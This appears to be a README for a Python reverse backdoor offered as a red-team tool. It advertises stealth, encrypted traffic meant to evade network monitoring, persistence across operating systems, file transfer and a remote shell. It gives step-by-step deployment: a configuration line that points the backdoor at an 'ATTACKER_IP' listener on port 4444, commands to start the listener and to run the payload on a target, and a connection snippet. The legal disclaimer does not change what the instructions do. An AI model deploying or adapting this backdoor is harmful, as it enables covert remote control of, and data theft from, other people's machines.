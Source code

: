 🔐 Python Backdoor Tool (SSL/TLS Encrypted)
A stealthy, cross-platform backdoor with encrypted communication (SSL/TLS), persistence mechanisms, and remote command execution. Designed for penetration testers and red teamers to simulate post-exploitation activities in authorized environments.

⚠️ Legal & Ethical Notice
This tool is for educational, authorised security testing, and research purposes only.
Unauthorised use of systems you do not own or have explicit permission to test is illegal.
The developer assumes no liability for misuse.
✨ Key Features
✅ Encrypted Communication – SSL/TLS secured to evade basic network monitoring.
✅ Persistence – Auto-starts on reboot (Windows, Linux, macOS).
✅ File Transfer – Upload/download files to/from the target.
✅ Remote Shell – Execute system commands remotely.
✅ Lightweight – No bloated dependencies, just Python 3.

🛠️ Setup & Usage
1️⃣ Prerequisites
Python 3.6+
pycryptodome (for optional AES encryption)
Install dependencies:

pip install -r requirements.txt
2️⃣ Configuration
Backdoor (reverse_backdoor.py)
Edit these values before deploying:

my_backdoor = Backdoor("ATTACKER_IP", 4444, "STRONG_PASSWORD")  # Replace!
Listener (listener.py)
Ensure the IP/password match:

my_backdoor = Backdoor("YOUR_IP", 4444, "STRONG_PASSWORD")  # Same as above!

3️⃣ Running the Tool

Start the listener (attacker machine):
python listener.py

Deploy the backdoor (target machine):\
python reverse_backdoor.py


🔧 Customization
Change Port/Password
Modify these in both files:

Backdoor("IP", PORT, "PASSWORD")  # Update IP/port/password
Disable SSL (Not Recommended)
Replace _secure_connect with a plain socket:

def _secure_connect(self, ip, port):
    return socket.create_connection((ip, port))
